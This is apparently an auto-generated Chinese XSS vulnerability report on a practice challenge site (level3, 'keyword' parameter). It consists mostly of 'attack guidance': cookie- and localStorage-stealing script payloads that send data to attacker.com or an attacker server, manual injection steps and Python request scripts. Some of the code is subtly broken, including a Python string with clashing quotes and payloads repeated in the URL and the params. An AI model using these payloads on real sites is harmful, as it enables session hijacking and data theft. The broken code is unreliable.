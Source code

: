 ### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: critical
- 验证载荷: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<script>fetch('http://attacker.com/?cookie='+document.cookie)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: critical
- 验证载荷: <svg onload=alert(document.domain)>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <svg onload=alert(document.domain)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<svg onload=alert(document.domain)>'}
   response = requests.get(url, params=params)
   ```
